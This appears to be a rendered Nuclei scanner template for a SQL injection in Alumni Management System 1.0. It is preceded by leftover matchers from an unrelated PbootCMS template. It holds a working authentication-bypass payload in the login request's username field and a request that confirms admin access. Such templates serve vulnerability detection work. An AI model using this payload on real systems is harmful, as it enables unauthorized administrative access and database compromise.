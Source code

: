 **Type - word**
- part - body
- words
    1. PbootCMS
    2. SQLite format 3
- condition - and

**Type - status**
- status
    1. 200

---
# Alumni Management System 1.0 - SQL Injection
## Description
- Alumni Management System 1.0 contains a SQL injection vulnerability via admin/login in the username parameter. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - sqli,auth-bypass,cms,edb,alumni
## Requests
### Step - 1
```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin'+or+'1'%3D'1'%23&password=nuclei

```
### Step - 2
```
GET /admin/index.php?page=home HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. Welcome back Admin!
    2. Alumni List
- condition - and

**Type - word**
- part - body
- words
    1. #login-form
- negative - True
